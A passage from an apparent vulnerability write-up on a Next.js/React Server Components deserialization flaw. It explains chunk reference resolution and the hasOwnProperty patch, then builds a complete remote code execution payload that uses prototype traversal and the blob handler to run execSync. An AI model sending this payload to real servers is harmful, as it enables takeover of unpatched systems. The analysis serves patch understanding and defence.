        var blocked = initializingChunkBlockedModel;
        cyclic || blocked.deps++;
      } else
        blocked = initializingChunkBlockedModel = {
          deps: cyclic ? 0 : 1,
          value: null
        };
      return function (value) {   //resolver function
        for (var i = 1; i < path.length; i++) value = value[path[i]];
        parentObject[key] = map(response, value);
        "" === key &&
          null === blocked.value &&
          (blocked.value = parentObject[key]);
        blocked.deps--;
        0 === blocked.deps &&
          "blocked" === chunk.status &&
          ((value = chunk.value),
          (chunk.status = "fulfilled"),
          (chunk.value = blocked.value),
          null !== value && wakeChunk(value, blocked.value));
      };
    }
```

* This if…else condition is responsible for dependency tracking.   
* When the React Flight deserializer encounters a reference to another chunk (like $1), it cannot finish "reviving" the current object until that second chunk is ready. This code manages the "Waitlist" for those missing pieces.  
* Currently we don’t have any chunk in the blocked status so we move to the else condition where it marks this as the first dependency encountered for the current chunk(chunk 1)  
* When chunk 1 has not arrived yet, it handles this "wait," the createModelResolver function generates a Resolver (the "callback") which is then stored in Chunk 1’s listener list.  
  * The generation happens in `getOutlinedModel()`. when the server encounters a reference (like Chunk 1) that is not yet ready, `getOutlinedModel()` calls `id.then()`
  * The first argument passed to `.then()` is the Resolver function generated by `createModelResolver`.

```js
case "pending":
case "blocked":
case "cyclic":
  var parentChunk = initializingChunk;
  id.then(
    createModelResolver(
      parentChunk,
      parentObject,
      key,
      "cyclic" === id.status,
      response,
      map,
      reference
      ),
      createModelReject(parentChunk)
  );
```

  * The storage of the listener's list happens because the code calls `id.then()` on the dependency chunk(chunk 1).  
  * When a chunk is not fulfilled, its `.then()` method does the following:

```js
Chunk.prototype.then = function (resolve, reject){
....
.....
//code
case "pending":
case "blocked":
case "cyclic":
    resolve &&
      (null === this.value && (this.value = []),
      this.value.push(resolve));
      reject &&(null === this.reason && (this.reason = []),
      this.reason.push(reject));
      break;
default:
  reject(this.reason);
      }
```

  * The above code ensures that chunk’s value property is array to act as a storage bin.
  * It pushes the newly generated Resolver into that array: `this.value.push(resolve)`

> In the world of Javascript promises, resolve and reject are the callback functions or listeners. 
> * resolve: This is the "Success" function. It contains the instructions for what the application should do once the data finally arrives  
> * reject: This is the "Failure" function. It tells the application how to handle an error if the data fails to load.

<p style="font-size: 0.85em;">
  <em>Note: More about JavaScript promises will be explained later in the blog.</em>
</p>

* The resolver function runs when the missing data finally arrives. The server uses a counter called deps (dependencies) to keep track of how many pieces of data a specific chunk is waiting for before it can be considered "finished"  
* Every time this Resolver function runs, it means one more piece of the puzzle has arrived, so it subtracts one from that counter  
* `0 === blocked.deps && "blocked" === chunk.status && (...)`:  When the dependency counter hits zero, it means every part of this chunk is now ready. The server then performs three final steps:  
  * It officially flips the chunk status from "blocked" to "fulfilled".  
  * It moves the final revived object into the chunk.value.  
  * It calls `wakeChunk()`, which triggers any other functions that were waiting on this specific chunk to finish. 



* Currently we have `deps=1` and the control goes back to the `getOutlinedModel()` and returns `null` because the referenced chunk has not been resolved yet. Even though we referenced chunk 1, we don't have that chunk available yet.  
* Then it goes back to parseModelString and back to reviveModel to check if the value is of type Object which is false, because value is null. Goes back to `initializeModelChunk()`.  
* Here, the status of the chunk will become blocked. If a value cannot be immediately resolved because it depends on other chunks (like references to $1, $2, etc.), the code sets:

```js
initializingChunkBlockedModel.value = value;
chunk.status = "blocked";
```



* Then it goes back to `resolveModelChunk()` switch case. As the status is now “blocked”, it executes the following code:

```js
case "blocked":
case "cyclic":
  if (chunk.value)
    for (value = 0; value < resolveListeners.length; value++)
        chunk.value.push(resolveListeners[value]);
  else chunk.value = resolveListeners;
```

  * The code checks `if (chunk.value)`. If it is empty (null or undefined), it means no one is waiting for this chunk yet. So, the else block executes.   
  * Normally, `chunk.value` is meant to hold the final, "revived" data. However, while a chunk is blocked, it has no data to show yet. To save memory, React "borrows" the value property and uses it as a storage bin for an array of Listeners.

Then, the control comes back to the finally block in the `initializeModelChunk()`
```js
finally {
        (initializingChunk = prevChunk),
          (initializingChunkBlockedModel = prevBlocked);
      }
```

* The React Flight deserializer uses global variables like `initializingChunk` and `initializingChunkBlockedModel` to keep track of the specific chunk it is currently "reviving".  
  * Before the parsing begins, the function captures the current state of these globals in local variables (prevChunk and prevBlocked).  
  * The finally block then re-assigns those saved values back to the globals once the work is done.  
      
* Now, the control moves to accessing chunk 1. It goes through the functions like `resolveField()`, `resolveModelChunk()`, `initializeModelChunk()`.   
* initializeModelChunk parses the JSON and calls reviveModel.

**Step 9: Reviving the Model \- reviveModel()**

This function recursively deserializes objects, iterating over properties.

**Input**: response, parentObj (e.g., { "": rawJson }), parentKey (""), value (the parsed JSON object), reference ("1").

```js
function reviveModel(response, parentObj, parentKey, value, reference) {
  if ("string" === typeof value)
    return parseModelString(
      response,
      parentObj,
      parentKey,
      value,
      reference
    );
  if ("object" === typeof value && null !== value)
    if (
      (void 0 !== reference &&
        void 0 !== response._temporaryReferences &&
        response._temporaryReferences.set(value, reference),
      Array.isArray(value))
    )
      for (var i = 0; i < value.length; i++)
        value[i] = reviveModel(
          response,
          value,
          "" + i,
          value[i],
          void 0 !== reference ? reference + ":" + i : void 0
        );
    else
      for (i in value)
        hasOwnProperty.call(value, i) &&  // Safe check
          ((parentObj =
            void 0 !== reference && -1 === i.indexOf(":")
              ? reference + ":" + i
              : void 0),
          (parentObj = reviveModel(
            response,
            value,
            i,
            value[i],
            parentObj
          )),
          void 0 !== parentObj ? (value[i] = parentObj) : delete value[i]);
  return value;
}
```

Execution :

* Initial call: `reviveModel(response, { "": rawJson }, "", { foo: "bar" }, "1")`.  
* value is an object `{ foo: "bar" }`, not a string.  
* Not an array, so enters the else branch.

Loops over properties: `for (i in value)` finds `i = "foo"`.  
Checks `hasOwnProperty.call(value, "foo")` → true (direct property).  
Computes `parentObj = void 0 !== "1" && -1 === "foo".indexOf(":") ? "1" + ":" + "foo" : void 0 → "1:foo"`.  
Recurses: `parentObj = reviveModel(response, value, "foo", "bar", "1:foo")`.  
Inside recursion: value is now "bar" (string).

* Since string, calls `parseModelString(response, value, "foo", "bar", "1:foo")`.  
* parseModelString checks if "bar" starts with "$". It doesn't, so returns "bar" as-is.  
* Back in outer call: `void 0 !== parentObj (parentObj is "bar"), so sets value["foo"] = "bar"`.  
* Loop ends; returns the object `{ foo: "bar" }`.

Output: The revived object `{ foo: "bar" }`.

Once reviveModel has completely finished turning the raw JSON into a "live" object, the status of Chunk 1 is updated to "fulfilled".   


Once Chunk 1 is fulfilled, the server executes this line inside initializeModelChunk: `null \!== resolveListeners && wakeChunk(resolveListeners, value);`,  
wakeChunk iterates through all the functions that were waiting for Chunk 1.

```js
function wakeChunk(listeners, value) {
      for (var i = 0; i < listeners.length; i++) (0, listeners[i])(value);
    }
```

The Resolver function from Chunk 0's processing is in the listeners list. `wakeChunk()` executes this resolver, which runs its for loop to find Chunk 1's data and update Chunk 0 with the result.

```js
for (var i = 1; i < path.length; i++) 
value = value[path[i]];
```

Here `path=[1]`(as our reference is simply $1, then array is [1]), so `path.length=1`, then for loop won’t execute even once and the value remains the original object: `{"foo": "bar"}`.

Then the control moves to `createModel()` which returns the revived value.  


In short, we got an idea on how `"$1"` resolves to `{ foo: "bar" }`.  
Similarly, if the reference includes a colon, it lets you access a property inside the resolved chunk. For example, if the payload is:

Chunk 0: 
```
{
  "hello": "$1:name"
}
```

And chunk 1 is:
```
{
  "name": "world"
}
```

then `$1:name` means “get chunk 1 and return its name property.”  
So, after deserialization, you get:  
$1:name \-\> “world” , because:

* Once `initializeModelChunk()` is called, which parses and revives it to `{name:”world”}`, then sets status to “fulfilled” because there are no unresolved promises left.

```js
if (
    null !== initializingChunkBlockedModel &&
    0 < initializingChunkBlockedModel.deps
    )
    (initializingChunkBlockedModel.value = value),
    (chunk.status = "blocked");
else {
    var resolveListeners = chunk.value;
    chunk.status = "fulfilled";
    chunk.value = value;
    null !== resolveListeners && wakeChunk(resolveListeners, value);
    }
```

* Once chunk.status is fulfilled, it will wake the chunk(`wakeChunk()`) and later enter a FOR loop of its resolver.   
  * Path array=`[1, name]`
  * Iteration 1 (i = 1):  
    * The loop checks the condition: Is 1 < 2 (the length of the path)? Yes.  
    * It looks at path, which is the string "name".  
    * It performs the lookup: `value = value["name"]`.  
    * The variable value changes from the whole object `{"name": "world"}` to the specific string "world".  
  * Termination (i = 2):  
    * The loop checks the condition: Is 2 < 2? No.  
    * The loop terminates.  
  * Final Result  
    * After the loop finishes, the Resolver takes the final value ("world") and assigns it to Chunk 0.  
    * The assignment: `parentObject[key] = map(response, value);`.  
    * The property hello in Chunk 0 is updated, effectively turning the original object into { hello : "world"}.  
    

This shows how the colon (:) in a reference allows you to reach into nested properties of another chunk. We will evaluate later whether this functionality proves beneficial.

Now that we understand how references like $1:name are resolved to nested properties in React Server Components, let's look at why this mechanism became a security concern and how the patch addresses it.

## Understanding the patch

Comparing the vulnerable version with Next.js 16.0.7(patched), the most significant change is located within the `getOutlineModel()` and `createModelResolver()`

Here is the [diff](https://github.com/vercel/next.js/compare/v16.0.6...v16.0.7#diff-90ce3d6fab9d599ee2700961439a0e80ad844914e061788c0bdc7b88281bf541)



The patched code:

```js
function getOutlinedModel(response, reference, parentObject, key, map) {
      reference = reference.split(":");
      var id = parseInt(reference[0], 16);
      id = getChunk(response, id);
      switch (id.status) {
        case "resolved_model":
          initializeModelChunk(id);
      }
      switch (id.status) {
        case "fulfilled":
          var value = id.value;
          for (id = 1; id < reference.length; id++) {
            for (; value instanceof ReactPromise; ) {
              switch (value.status) {
                case "resolved_model":
                  initializeModelChunk(value);
              }
              switch (value.status) {
                case "fulfilled":
                  value = value.value;
                  break;
                case "blocked":
                case "pending":
                  return waitForReference(
                    value,
                    parentObject,
                    key,
                    response,
                    map,
                    reference.slice(id - 1)
                  );
                default:
                 //code
            }
            var name = reference[id];
            "object" === typeof value &&
              hasOwnProperty.call(value, name) &&
              (value = value[name]);
          }
          return map(response, value, parentObject, key);
        case "pending":
        case "blocked":
          //relevant code
          );
        default:
          //code 
          );
      }
    }
```

The patch introduces a critical security check using `hasOwnProperty`.   
In JavaScript, every object has a "hidden parent" (the Prototype) containing built-in functions like `.toString()` or `.constructor`. The code could have blindly accessed any property the attacker requested, such as `__proto__` or `constructor`, allowing them to "climb" the object's family tree.

Basically, the [hasOwnProperty](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/hasOwnProperty) method is a fundamental JavaScript function used to verify whether a specific property belongs directly to an object, rather than being inherited from its "hidden parent," known as the Prototype. It returns a boolean value.

In JavaScript, objects inherit built-in functions (like `.toString()` or `.constructor`) from their prototype chain. The `hasOwnProperty` check ensures that the code only processes properties explicitly defined within the data chunk and ignores those belonging to the internal JavaScript engine.

Let’s look at some examples:

In your console, you can see how easy it is to traverse from a simple data object to the most powerful parts of the JavaScript engine.  


With the use of hasOwnProperty:



In short, the vulnerability existed because React didn't distinguish between the data you put in an object and the built-in properties it inherits from its prototype, a mistake that ultimately led to the patch adding `hasOwnProperty`. The same thing happens in the `createModelResolver()` where an internal Resolver function is generated to handle data that isn't ready yet. This function contains a FOR loop identical to the dangerous one in getOutlinedModel that blindly traverses a property path provided by the attacker, such as `1:then:constructor`, once the data finally arrives.   
Vulnerable code:

```js
for (var i = 1; i < path.length; i++) value = value[path[i]];
    parentObject[key] = map(response, value);
```

In the patched version of the code, the `waitForReference` function replaces the vulnerable logic that previously relied on creating immediate, unchecked resolver functions. Instead of generating a raw callback like the old createModelResolver, this function acts as a structured "waiting room" for dependencies.

But what happens when an attacker uses this "hidden path" to reach the global Function constructor, the "brain" of JavaScript that can turn any plain string of text into live, running code?

Let’s dig deeper into it.

## Weaponising the Flight Protocol: A Technical Deep Dive

### Prototype chain traversal to reach Function constructor

By observing the patch, we can deduce that the parser blindly follows any property path appended to a valid chunk ID. While the ID itself must be a number (like 1). What if an attacker could chaining special keywords like `constructor` or `__proto__` to trick the engine into traversing the prototype chain instead of just resolving data? 

Let’s look into the code again:

```js
for (var i = 1; i < path.length; i++) value = value[path[i]];
        parentObject[key] = map(response, value);
```

In this code, the path variable is an array (e.g., ["1", "foo", "bar"]) derived from a string reference like $1:foo:bar. The loop performs the property traversal as follows:
* The process starts with value being the data from the resolved chunk (e.g., Chunk 1)
* The loop starts at index 1 (skipping the ID) and iteratively updates value by accessing the next property in the path. For example, if the path is 1:foo:bar, it first performs `value = value["foo"]` and then `value = value["bar"]`
* Once the loop finishes, the final value is assigned to the parentObject at the specific key

This means the parser will follow any property path provided in the reference string, without restriction.

Now, consider what happens if the attacker provides a path that targets built-in properties. For instance, if the attacker uses a reference like `1:constructor`, the code will:

* Retrieve Chunk 1.  
* Access its constructor property: `chunk1["constructor"]`.


If chunk1 is a plain object, this will return the global `Object` constructor. If chunk1 is a function, it will return the `Function` constructor.

* `chunk1["constructor"]` (Object or Function)  
* `chunk1["constructor"]["constructor"]` (Function)


This opens the door to accessing the global `Function` constructor, which can be used to create and execute arbitrary code. However, simply having this reference isn’t enough, there’s no code execution yet.

### Faking a Promise to Hijack Control Flow

How does an attacker go from merely holding the keys to the Function constructor, to actually starting the engine and executing code? 

As we know, in React Server Components (RSC), the "Flight" data is processed as a stream. Because data can arrive out of order, React uses Promises to manage the wait.

A Promise is a placeholder for a value that isn't ready yet. In JavaScript, you don't actually need a real `new Promise()` object to trick the system. Anything with a `.then()` method is considered a "Thenable." React’s deserializer uses await on objects with a `.then()` method.

```js
Chunk.prototype = Object.create(Promise.prototype);
    Chunk.prototype.then = function (resolve, reject) {
      switch (this.status) {
        case "resolved_model":
          initializeModelChunk(this);
      }
      switch (this.status) {
        case "fulfilled":
          resolve(this.value);
          break;
        case "pending":
        case "blocked":
        case "cyclic":
          resolve &&
            (null === this.value && (this.value = []),
            this.value.push(resolve));
          reject &&
            (null === this.reason && (this.reason = []),
            this.reason.push(reject));
          break;
        default:
          reject(this.reason);
      }
    };
```

* In RSC deserialization logic, each chunk is an object that extends the native Javascript Promise prototype. This means every chunk inherits all the methods of a Promise, including the special then method via its prototype chain.   
    
* In the above code, React assigns `Chunk.prototype` to `Promise.prototype`. The built-in constructor Promise already has a `.then()`. Instead of using the standard `.then()` of Promise, React writes its own custom `.then()` for chunks.  
    
* If the status is `resolved_model`, it triggers `initializeModelChunk`, which serves as the entry point for React’s complex deserialization logic (reviving references and objects).  
    
* If we can craft a payload so that the then property of the chunk object(chunk 0) points to `Chunk.prototype.then`, and set its status to `resolved_model`, React will invoke this custom then method which triggers `initializeModelChunk`, allowing us to reach the core deserialization logic.  
    
* To call this chunk’s `then` property, we need to set the other chunk(chunk 1) as a promise reference like `$@0`. When deserializing this referenced value, instead of just using the value, **the deserializer will call the chunk 0’s then method**, expecting it to resolve asynchronously.

To do this, let's craft multipart form-data so that the "then" property of an object points to a dangerous target. Here are some examples. 

**Example 1: Pointing to a Chunk’s Prototype’s then Method**

This can be done using special reference syntax:

```
--boundary
Content-Disposition: form-data; name="0"

{"then":"$1:__proto__.:then"}
--boundary
Content-Disposition: form-data; name="1"

"$@0"
--boundary-
```

* Here, `$1:__proto__:then` means: resolve chunk 1, get its prototype, then get the then method.  
* In `parseModelString()`, “$@” means:

```js
case "@":
  return (
    (obj = parseInt(value.slice(2), 16)), getChunk(response, obj)
      );
```


It returns the chunk object for id 0, not its value.

So, chunk 1 is set to the actual chunk 0 object , not the resolved value of chunk 0.   
The following function is the Chunk constructor. It creates chunk objects with the properties like status, value, reason and _response.

```js
function Chunk(status, value, reason, response) {
this.status = status;
this.value = value;
this.reason = reason;
this._response = response;
}
```

So, starting from chunk 1(which is chunk 0) the payload moves from the chunk 0 object to its prototype and gets the then property from the prototype which is the custom then property of `Chunk.prototype`. 

**Example 2: Pointing to the Function Constructor**

Suppose the attacker sends the following multipart form-data:

```
--boundary
Content-Disposition: form-data; name="0"

{"then":"$1:constructor:constructor"}
--boundary
Content-Disposition: form-data; name="1"

{}
--boundary-
```

* Chunk 0 is an object with a "then" property.  
* The value of "then" is a reference string: `$1:constructor:constructor`.  
* This tells the deserializer to resolve chunk 1(empty object), access its constructor property (which is global Object), then access constructor again (which is the global `Function`).

Now, chunk 0’s "then" property is the global `Function` constructor.

With control over the execution flow, the attacker’s next challenge is to find a place in the server’s code where their payload will actually be executed. One such "execution sink" exists in React’s blob deserialization logic.

### The RCE gadget: Execution Sink in React’s Blob Handling Logic

So far, we’ve seen how an attacker can use reference traversal and fake promises to gain access to the powerful Function constructor. But how does this actually lead to code execution on the server? The answer lies in a subtle but dangerous part of React’s deserialization logic: how it handles **blobs**.

When React receives data from the client, it uses a special shorthand for different types of objects. For example:

* $D... means “this is a Date,” so React runs new Date(...).  
* $n... means “this is a BigInt,” so React runs BigInt(...).

These cases are safe because React always calls a fixed, hardcoded function for each tag. There’s no way for an attacker to change what function gets called.

**The Special Case: Blob ($B)**  
Blobs are different. When React sees a string like $B1, it doesn’t call a fixed function. Instead, it looks up a value using a dynamic call(in `parseModelString()`):

```js
case "B":
            return (
              (obj = parseInt(value.slice(2), 16)),
              response._formData.get(response._prefix + obj)
            );
```

Here’s what’s happening:

`response._formData` is supposed to be a safe object that stores uploaded files.  
`response._prefix` is a string that helps React find the right file.  
id is the chunk number.

But both `_formData` and `_prefix` are just properties of the response object created by `CreateResponse()`. They are just regular fields that can be set, overwritten or manipulated like any other property on a JS object. If an attacker can control them, they can make React call any function they want with any argument they want.

So, if the `response.formData.get` is set to the Function constructor and `response._prefix` set to a malicious code(For example: `require('child\_process').exec('id')`), when react calls `response._formData.get(response._prefix + "1")` , it ends up running, 

```
Function("require('child_process').exec('id')1")
```

**Why This Works:**  
The real danger comes from how React resolves references. When it sees a string like `$1:then:constructor`, it splits the path and recursively looks up each property:

```js
value = value[path[i]];
```

If the attacker controls the path, they can reach deep into the prototype chain and grab dangerous functions like Function. Then, by manipulating the blob logic, they can make React call it.

The combination of flexible reference resolution and dynamic function calls in blob handling creates a powerful “execution sink” for attackers. This is the final step that turns a clever deserialization trick into a full-blown server compromise.

## Step by step payload construction

**Step 1: Reference chaining and prototype traversal**

We need to obtain a reference to the global Function constructor by traversing the prototype chain.  
Lets create two chunks:  
Chunk 1:  “$@0”  
Chunk 0: `{ “then” : “$1:__proto__:then” }`

The `then` property is set to:

* Start at chunk 1  
* Access its `__proto__`
* Then access `then` on that prototype.

This allows us to control what `.then()` means for Chunk 0

**Step 2: Making the Object “Thenable” and forcing invocation.**

Now we need to trick the deserializer into treating our object as a promise-like and automatically invoking `.then()`.

```
{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\":\"$B1337\"}"
}
```

* `status: "resolved_model"`: Tells the deserializer this chunk is already resolved, so it will process it immediately.  
* `value`: Contains a stringified object with its own then property, which will be used in the next phase.  
* When the server processes Chunk 0, the function `initializeModelChunk` takes the raw string in the "value" field and runs `JSON.parse()` on it. This creates a simple JavaScript object: `{ "then": "$B1337" }`.


  
**Step 3: Preparing for Code Execution**

It sets up the conditions for arbitrary code execution by controlling how the server will later call a function.

```
{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\":\"$B1337\"}",
  "_response": {
    "_prefix": "process.mainModule.require('child_process').execSync('open -a Calculator');",
    "_formData": { "get": "$1:constructor:constructor" }
  }
}
```

* `_prefix`: The malicious JavaScript code to execute.  
* `_formData.get`: A reference path that, when resolved, gives us the global Function constructor by traversing `constructor:constructor`.  
* When `reviveModel()` sees the value `$B1337`, it triggers the Blob deserialisation logic in `parseModelString()`.

```
response._formData.get(response._prefix + id)
```

If get is the Function constructor, and `_prefix` is attacker-controlled code, this results in the following execution:
```
Function("process.mainModule.require('child_process').execSync('open -a Calculator');1337")()
```

### Final Payload

```
------WebKitFormBoundary9CIjetVnj9qvmxoY
Content-Disposition: form-data; name="0"

{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\":\"$B1337\"}",
  "_response": {
    "_prefix": "process.mainModule.require('child_process').execSync('open -a Calculator');",
    "_formData": { "get": "$1:constructor:constructor" }
  }
}
------WebKitFormBoundary9CIjetVnj9qvmxoY
Content-Disposition: form-data; name="1"

"$@0"
------WebKitFormBoundary9CIjetVnj9qvmxoY--
```
Output:

